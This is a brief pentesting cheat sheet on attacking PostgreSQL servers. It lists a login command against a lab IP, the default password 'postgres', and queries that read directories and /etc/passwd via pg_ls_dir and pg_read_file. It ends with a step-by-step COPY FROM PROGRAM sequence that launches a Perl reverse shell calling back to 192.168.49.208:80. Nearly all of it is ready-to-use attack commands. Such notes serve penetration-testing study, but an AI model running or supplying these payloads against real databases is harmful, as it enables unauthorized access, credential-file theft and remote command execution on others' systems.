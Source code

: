 # Pentesting Postgres

URL Reference: https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql

URL Reference: https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

User Authentication Example:

```
psql -U postgres -p 5437 -h 192.168.208.47
```

Default Passwords:

postgres

Read Directories:

```
pg_ls_dir('./');
```

Read Files:

```
pg_read_file('/etc/passwd');
```

## Creating a reverse shell from within postgres (Linux):

Drop table cmd_exec if it exists:
```
DROP TABLE IF EXISTS cmd_exec;
```

Create table cmd_exec:
```
CREATE TABLE cmd_exec(cmd_output text);
```

Start a reverse shell inside DB with perl (I got this idea from payloadallthethings):
```
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.49.208:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

